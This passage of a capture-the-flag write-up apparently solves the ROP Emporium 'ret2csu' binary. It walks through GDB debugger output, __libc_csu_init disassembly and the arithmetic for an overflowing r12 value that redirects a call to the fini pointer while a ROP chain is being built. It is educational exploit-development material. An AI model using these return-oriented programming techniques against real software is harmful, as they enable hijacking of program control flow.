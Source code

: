 ```python
if __name__ == '__main__':
    main()
```
- Save script and exit using `:wq`, then run Python script and write to our FIFO:
> $ `python get_flag.py > my_fifo`

### Back to 1st terminal
- Having written to the FIFO using our Python script, GDB will now have continued execution of the program and reached our breakpoint just before the `ret` instruction:
```
> Thank you!
rax            0xb                 11
rbx            0x400640            4195904
[...]
=> 0x7f009651f9d2 <pwnme+152>:	ret    
   0x7f009651f9d3 <ret2win>:	push   rbp
[...]
0x7fff08776b38:	0x000000000040069c	0x0000000000600e48
0x7fff08776b48:	0xdeadbeefdeadbeef	0xcafebabecafebabe
0x7fff08776b58:	0xd00df00dd00df00d	0x0000000000400680
0x7fff08776b68:	0x00000000004006a3	0xdeadbeefdeadbeef

Breakpoint 2, 0x00007f009651f9d2 in pwnme () from ./libret2csu.so
```
- Unfortunately, rbx is set to 0x400640, as shown above
- Step through each instruction one by one until we're before the `call qword [r12 + rbx*8]` instruction to see if rbx changes:
> (gdb) `si`  
- We can see that as we step through instructions we're moving along our ROP chain until we reach `call qword [r12 + rbx*8]`, but unfortunately rbx is still `0x400640`:
```
rax            0xb                 11
rbx            0x400640            4195904
[...]
=> 0x400689 <__libc_csu_init+73>:	call   QWORD PTR [r12+rbx*8]
   0x40068d <__libc_csu_init+77>:	add    rbx,0x1
   0x400691 <__libc_csu_init+81>:	cmp    rbp,rbx
   0x400694 <__libc_csu_init+84>:	jne    0x400680 <__libc_csu_init+64>
   0x400696 <__libc_csu_init+86>:	add    rsp,0x8
   0x40069a <__libc_csu_init+90>:	pop    rbx
   0x40069b <__libc_csu_init+91>:	pop    rbp
   0x40069c <__libc_csu_init+92>:	pop    r12
   0x40069e <__libc_csu_init+94>:	pop    r13
   0x4006a0 <__libc_csu_init+96>:	pop    r14
   0x4006a2 <__libc_csu_init+98>:	pop    r15
   0x4006a4 <__libc_csu_init+100>:	ret    
0x7fff08776b68:	0x00000000004006a3	0xdeadbeefdeadbeef
0x7fff08776b78:	0x0000000000400510	0x0000000000400520
0x7fff08776b88:	0x00007fff08776c30	0x0000000000000000
0x7fff08776b98:	0x0000000000000000	0x36401d3034d901d6
0x0000000000400689 in __libc_csu_init ()
```
- If we carry on stepping, we'll segfault due to the `call qword [r12 + rbx*8]` not accessing valid memory, so we'll have to adjust for the value of rbx when we set r12
- Our target is for `fini_ptr = 0x600e48`
- Current value of rbp is `rbp_val = 0x400640`
- Working backwards from when `r12 + rbx*8` is evaluated, we will set a very high value for r12 such when rbx*8 is added it overflows and the resulting memory address evaluates to 0x600e48:
  - r12_val = 0x10000000000000000 + fini_ptr - (rbp_val*8)
  - r12_val = 0x10000000000600e48 - (0x400640*8)
  - r12_val = 0xfffffffffe5fdc48
- Restart program with FIFO as input `r < my_fifo`, then go back to 2nd terminal to update Python script
